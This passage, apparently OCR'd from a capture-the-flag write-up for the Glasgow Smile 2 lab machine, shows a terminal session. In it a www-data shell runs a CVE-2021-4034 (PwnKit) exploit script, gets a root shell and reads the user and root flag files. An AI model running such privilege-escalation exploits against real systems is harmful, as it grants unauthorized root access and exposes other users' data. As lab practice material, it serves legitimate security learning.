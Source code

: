 ```bash
www-data@glasgowsmile2:/tmp$ chmod +x CVE-2021-4034.py
www-data@glasgowsmile2:/tmp$ ./CVE-2021-4034.py
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f365e0634f0 at 0x7f365d827a20>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cd /home
# cd riddler
# ls
theworldmustbeburned  user.txt
# cat user.txt
GS2{52ed6cddca27b44be716f9b856744008}
# cd ../bane
# ls
public_html  riddler.jpg  user2.txt
# cat user2.txt
GS2{5c851b5e9ec996b38b7d0a544013380e}
# cd ../carnage
# ls
get_out  user3.txt
# cat user3.txt
GS2{988535ad480d747ef00c705541d08a6e}
# cd ../venom
# ls
Ladies_and_Gentlmen  user4.txt
# cat user4.txt
GS2{b79aba0d627bcd2025e35c2a192e1d51}
#
# cd /root
# ls
root.txt  task.sh
# cat root.txt
      ....        .         ..                .x+=:.                                                     ...                                .          ..
   .x88" `^x~  xH(`   x .d88"                z`    ^%                            x=~                 .x888888hx    :                       @88>  x .d88"               .--~*teu.
  X888   x8 ` 8888h    5888R                    .   <k                    u.    88x.   .e.   .e.    d88888888888hxx     ..    .     :      %8P    5888R               dF     988Nx
 88888  888.  %8888    '888R         u        .@8Ned8"      uL      ...ue888b  '8888X.x888:.x888   8" ... `"*8888%`   .888: x888  x888.     .     '888R        .u    d888b   `8888>
<8888X X8888   X8?      888R      us888u.   .@^%8888"   .ue888Nc..  888R Y888r  `8888  888X '888k !  "   ` .xnxx.    ~`8888~'888X`?888f`  .@88u    888R     ud8888.  ?8888>  98888F
X8888> 488888>"8888x    888R   .@88 "8888" x88:  `)8b. d88E`"888E`  888R I888>   X888  888X  888X X X   .H8888888%:    X888  888X '888>  ''888E`   888R   :888'8888.  "**"  x88888~
X8888>  888888 '8888L   888R   9888  9888  8888N=*8888 888E  888E   888R I888>   X888  888X  888X X 'hn8888888*"   >   X888  888X '888>    888E    888R   d888 '88%"       d8888*`
?8888X   ?8888>'8888X   888R   9888  9888   %8"    R88 888E  888E   888R I888>   X888  888X  888X X: `*88888%`     !   X888  888X '888>    888E    888R   8888.+"        z8**"`   :
 8888X h  8888 '8888~   888R   9888  9888    @8Wou 9%  888E  888E  u8888cJ888   .X888  888X. 888~ '8h.. ``     ..x8>   X888  888X '888>    888E    888R   8888L        :?.....  ..F
  ?888  -:8*"  <888"   .888B . 9888  9888  .888888P`   888& .888E   "*888*P"    `%88%``"*888Y"     `88888888888888f   "*88%""*88" '888!`   888&   .888B . '8888c. .+  <""888888888~
   `*88.      :88%     ^*888%  "888*""888" `   ^"F     *888" 888&     'Y"         `~     `"         '%8888888888*"      `~    "    `"`     R888"  ^*888%   "88888%    8:  "888888*
      ^"~====""`         "%     ^Y"   ^Y'               `"   "888E                                     ^"****""`                            ""      "%       "YP'     ""    "**"`
                                                       .dWi   `88E
                                                       4888~  J8%
```